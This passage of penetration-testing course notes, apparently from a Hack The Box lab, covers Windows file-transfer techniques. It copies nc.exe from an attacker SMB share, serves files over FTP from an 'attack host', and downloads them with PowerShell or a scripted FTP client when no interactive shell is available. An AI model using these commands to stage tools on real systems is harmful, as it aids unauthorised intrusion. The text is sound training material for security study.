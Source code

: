 #### Mount the SMB Server with Username and Password
```powershell
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

**Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.

### FTP Downloads
* We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server
* Configure an FTP Server in our attack host using Python3 `pyftpdlib` module

```sh
$ sudo pip3 install pyftpdlib
```

* By default, `pyftpdlib` uses port 2121
* Anonymous authentication is enabled by default if we don't set a user and password

```sh
$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

#### Transferring Files from an FTP Server Using PowerShell
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```

* If we don't have an interactive shell, we can create an FTP command file to download a file

#### Create a Command File for the FTP Client and Download the Target File
```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

